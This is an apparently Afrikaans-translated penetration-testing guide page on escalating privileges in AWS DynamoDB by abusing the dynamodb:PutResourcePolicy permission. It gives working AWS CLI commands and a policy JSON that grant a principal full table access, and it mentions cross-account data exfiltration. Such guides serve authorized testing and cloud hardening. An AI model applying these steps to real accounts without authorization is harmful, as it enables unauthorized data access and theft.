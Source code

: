 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Vir meer inligting oor dynamodb, kyk:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, en opsioneel `dynamodb:GetResourcePolicy`

Sedert Maart 2024 bied AWS *hulpbron-gebaseerde beleide* vir DynamoDB aan ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

As jy dus die `dynamodb:PutResourcePolicy` vir 'n tabel het, kan jy jouself of enige ander prinsiep volle toegang tot die tabel gee.

Die toekenning van die `dynamodb:PutResourcePolicy` aan 'n lukrake prinsiep gebeur dikwels per ongeluk, as die admins dink dat die toekenning van `dynamodb:Put*` slegs die prinsiep sou toelaat om items in die databasis te plaas - of as hulle daardie toestemmingset voor Maart 2024 toegeken het...

Ideaal gesproke het jy ook `dynamodb:GetResourcePolicy`, sodat jy nie ander potensieel noodsaaklike toestemmings oorskryf nie, maar slegs die bygevoegde toestemmings wat jy nodig het:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
As jy nie die huidige beleid kan verkry nie, gebruik net hierdie een wat volle toegang tot die tabel aan jou prinsiep verleen:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
As jy dit wil aanpas, hier is 'n lys van alle moontlike DynamoDB aksies: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). En hier is 'n lys van alle aksies wat toegelaat kan word via 'n hulpbron-gebaseerde beleid *EN watter van hierdie gebruik kan word oor rekeninge (dink data uitvloeiing!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Nou, met die beleidsdokument `policy.json` gereed, plaas die hulpbronbeleid:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Nou behoort jy die regte toestemmings te hê wat jy nodig gehad het.

### Post Exploitation

Soos ek weet, is daar **geen ander direkte manier om regte in AWS te verhoog net deur 'n paar AWS `dynamodb` toestemmings te hê**. Jy kan **sensitiewe** inligting uit die tabelle lees (wat AWS geloofsbriewe kan bevat) en **inligting op die tabelle skryf** (wat ander kwesbaarhede kan aktiveer, soos lambda kode-inspuitings...) maar al hierdie opsies word reeds oorweeg in die **DynamoDB Post Exploitation bladsy**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Lees data deur data Streams te misbruik

{{#include ../../../banners/hacktricks-training.md}}
